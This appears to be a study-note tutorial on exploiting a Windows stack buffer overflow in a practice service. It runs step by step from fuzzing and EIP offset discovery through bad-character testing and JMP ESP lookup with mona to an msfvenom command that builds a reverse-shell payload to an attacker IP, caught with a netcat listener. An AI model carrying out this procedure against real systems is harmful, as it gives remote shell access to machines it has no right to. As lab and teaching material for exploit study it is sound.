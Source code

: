 # Buffer Overflow

## First, Use a Python Script

* fuzz the command and find the byte value that it crashed the program with Immunity Debugger
* the python script will tell you when the app crashes and around what bytes

![](../.gitbook/assets/buffer-overflow-pic-0.png)

![](../.gitbook/assets/buffer-overflow-pic-1.png)

## Metasploit Module, Run Without Opening msfconsole

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000 
#(3000 is the Byte value where the program crashed)
```

## Run it Again with the Python Script, but with the New Fffset

* notice how the "TRUN" command now has "/.:/" behind it
* this is because of we found that value within Immunity Debugger when we crashed it the first time

![](../.gitbook/assets/buffer-overflow-pic-2.png)

## Check Immunity Bugger for “EIP” to be overwritten with a Value

* take that value and run this new command
* this finds the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset -l 3000 -q 386F4337
#(this -q value is what value was left within the EIP)
```

* it will give us the exact offset byte value, this example will be 2003

## Overwrite the EIP

* rewrite the script
* “A” \* 2003 is to overwrite the buffer up until the EPI
* “B” \* 4 is to confirm we have the right spot by putting in different values
* EAX and EBP should be all A's
* EPI should be all B's
* remember it is HEX CODE!

![](../.gitbook/assets/buffer-overflow-pic-3.png)

![](../.gitbook/assets/buffer-overflow-pic-4.png)

## Finding Bad Characters

* What characters are good and bad for the shell code?

```text
badChars = (
"\\x01\\x02\\x03\\x04\\x05\\x06\\x07\\x08\\x09\\x0a\\x0b\\x0c\\x0d\\x0e\\x0f"
"\\x10\\x11\\x12\\x13\\x14\\x15\\x16\\x17\\x18\\x19\\x1a\\x1b\\x1c\\x1d\\x1e\\x1f"
"\\x20\\x21\\x22\\x23\\x24\\x25\\x26\\x27\\x28\\x29\\x2a\\x2b\\x2c\\x2d\\x2e\\x2f"
"\\x30\\x31\\x32\\x33\\x34\\x35\\x36\\x37\\x38\\x39\\x3a\\x3b\\x3c\\x3d\\x3e\\x3f"
"\\x40\\x41\\x42\\x43\\x44\\x45\\x46\\x47\\x48\\x49\\x4a\\x4b\\x4c\\x4d\\x4e\\x4f"
"\\x50\\x51\\x52\\x53\\x54\\x55\\x56\\x57\\x58\\x59\\x5a\\x5b\\x5c\\x5d\\x5e\\x5f"
"\\x60\\x61\\x62\\x63\\x64\\x65\\x66\\x67\\x68\\x69\\x6a\\x6b\\x6c\\x6d\\x6e\\x6f"
"\\x70\\x71\\x72\\x73\\x74\\x75\\x76\\x77\\x78\\x79\\x7a\\x7b\\x7c\\x7d\\x7e\\x7f"
"\\x80\\x81\\x82\\x83\\x84\\x85\\x86\\x87\\x88\\x89\\x8a\\x8b\\x8c\\x8d\\x8e\\x8f"
"\\x90\\x91\\x92\\x93\\x94\\x95\\x96\\x97\\x98\\x99\\x9a\\x9b\\x9c\\x9d\\x9e\\x9f"
"\\xa0\\xa1\\xa2\\xa3\\xa4\\xa5\\xa6\\xa7\\xa8\\xa9\\xaa\\xab\\xac\\xad\\xae\\xaf"
"\\xb0\\xb1\\xb2\\xb3\\xb4\\xb5\\xb6\\xb7\\xb8\\xb9\\xba\\xbb\\xbc\\xbd\\xbe\\xbf"
"\\xc0\\xc1\\xc2\\xc3\\xc4\\xc5\\xc6\\xc7\\xc8\\xc9\\xca\\xcb\\xcc\\xcd\\xce\\xcf"
"\\xd0\\xd1\\xd2\\xd3\\xd4\\xd5\\xd6\\xd7\\xd8\\xd9\\xda\\xdb\\xdc\\xdd\\xde\\xdf"
"\\xe0\\xe1\\xe2\\xe3\\xe4\\xe5\\xe6\\xe7\\xe8\\xe9\\xea\\xeb\\xec\\xed\\xee\\xef"
"\\xf0\\xf1\\xf2\\xf3\\xf4\\xf5\\xf6\\xf7\\xf8\\xf9\\xfa\\xfb\\xfc\\xfd\\xfe\\xff"
)
```

### Edit the script

![](../.gitbook/assets/buffer-overflow-pic-5.png)

* run the script and crash the program again, which is okay
* in the “Registers” section of Immunity Debugger, right click ESP and click "Follow in Hex Dump"
* Look for what is out of place, in this case, B0 is the odd one
* it should go in order, 01 02 03, etc.
* NULL BYTE = 00, IT IS ALWAYS A BAD CHARACTER. EVEN IF YOU FIND NO BAD CHARACTERS 00 IS ALWAYS BAD

![](../.gitbook/assets/buffer-overflow-pic-6%20%281%29.png)

## Finding the Right Module

* This is when you are looking for a DLL, or something similar, that has no memory protections
* “Mona Modules” on Github is a tool that is used to find the right place
* paste it in “This PC, C Drive, Program Files \(x86\), Immunity Inc, Immunity Debugger, PyCommands Folder”
* Now, on the bottom of Immunity Debugger, you search “!mona modules”
* look for a path that is attached to the program you are breaking, and also has FALSE for all memory protections

![](../.gitbook/assets/buffer-overflow-pic-7.png)

### Now we go to Kali Linux, to get the Jump Code

```bash
“locate nasm_shell”
“/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb”
```

* in the shell, type “JMP ESP”
* copy the results, which in this case is FFE4

### Go Back to Immunity Debugger and in the Bottom Search

```bash
!mona find -s ”\xff\xe4" -m essfunc.dll #<- essfunc.dll is the dll it found to be vulnerable
```

![](../.gitbook/assets/buffer-overflow-pic-8.png)

### It Displays Results, and Start at the Top and Go Down the List with the Following Steps

* go to Kali Linux and edit the Python script again
* keep in mind the Return Address

![](../.gitbook/assets/buffer-overflow-pic-9.png)

go back to Immunity Debugger, and click on the Blue Arrow next to the Red Arrows and type in the Return Address, then set a break point there \(F2 for Windows\)

* click play
* Run the new Python script, and notice how Immunity Bugger has paused. Congrats we control the EIP!

### Now use msfvenom to create a shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<attack machine IP> LPORT=4444 EXITFUNC=thread -f c -a x86 -b ”\x00" #(f is filetype, a is architecture, b is bad characters and where you would put them)
```

* once executed, copy the “unsigned char buf\[\]” values without the semi-colon
* now, once again edit the Python script
* add a variable “overflow" to the top and paste in the values surrounded by \(\) parenthesis
* add padding and “overflow” to “shellcode”
* 32 is the padding value which can be lowered if working with small sizes \(padding makes the buffer overflow work better\)

![](../.gitbook/assets/buffer-overflow-pic-10.png)

* set up a Netcat listener with the same ports you put within “LPORT” with your shell code
* make sure the Terminal App is running, then run the Python script

## Resources

* [The Cyber Mentor's](https://www.youtube.com/playlist?list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G) buffer overflow playlist
* [https://www.youtube.com/watch?v=OOkU7to0Ty4&ab\_channel=JesseK](https://www.youtube.com/watch?v=OOkU7to0Ty4&ab_channel=JesseK)
* [https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab\_channel=AnonVenus](https://www.youtube.com/watch?v=GnUcfbBr7d0&t=3s&ab_channel=AnonVenus)

